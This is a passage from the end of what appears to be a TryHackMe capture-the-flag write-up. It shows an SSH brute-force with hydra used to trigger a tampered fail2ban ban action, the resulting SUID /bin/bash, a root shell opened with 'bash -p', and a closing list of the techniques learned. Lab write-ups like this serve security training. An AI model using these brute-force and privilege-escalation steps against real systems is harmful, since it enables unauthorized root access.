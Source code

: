 - Restart the `fail2ban` service to apply changes:

```
fred@biteme:/etc/fail2ban/action.d$ sudo /bin/systemctl restart fail2ban
```

- Trigger the `actionban` by bruteforcing SSH:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/biteme]
└─# hydra -l anyuser -P /usr/share/wordlists/rockyou.txt ssh://$RHOSTS
[...]
```

- Verify the exploit works:

```
fred@biteme:/etc/fail2ban/action.d$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1.1M Jun  6  2019 /bin/bash
```

It works!! **Let's spawn a bash shell with SUID privilege!**

```
fred@biteme:/etc/fail2ban/action.d$ /bin/bash -p
bash-4.4# whoami;hostname;id;ip a
root
biteme
uid=1001(fred) gid=1001(fred) euid=0(root) egid=0(root) groups=0(root),1001(fred)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:62:cd:c5:ec:75 brd ff:ff:ff:ff:ff:ff
    inet 10.10.136.9/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3001sec preferred_lft 3001sec
    inet6 fe80::62:cdff:fec5:ec75/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root! :D

# Rooted

**root.txt:**
```
bash-4.4# cat /root/root.txt
THM{Redacted}
```

# Conclusion

What we've learned:

1. Directory Enumeration
2. PHP File Syntax Highlighting
3. Reviewing PHP Source Code
4. Writing Custom Python Script to Generate MD5 Hashes
5. Bypassing Login Page Authentication via Logical Vulnerability
6. Writing Custom Python Script to Bruteforce MFA (Multi-Factor Authentication)
7. Cracking Private SSH Key's Passphrase
8. Privilege Escalation via Misconfigured Sudo Permission
9. Privilege Escalation via Misconfigured Fail2Ban Configuration File Permission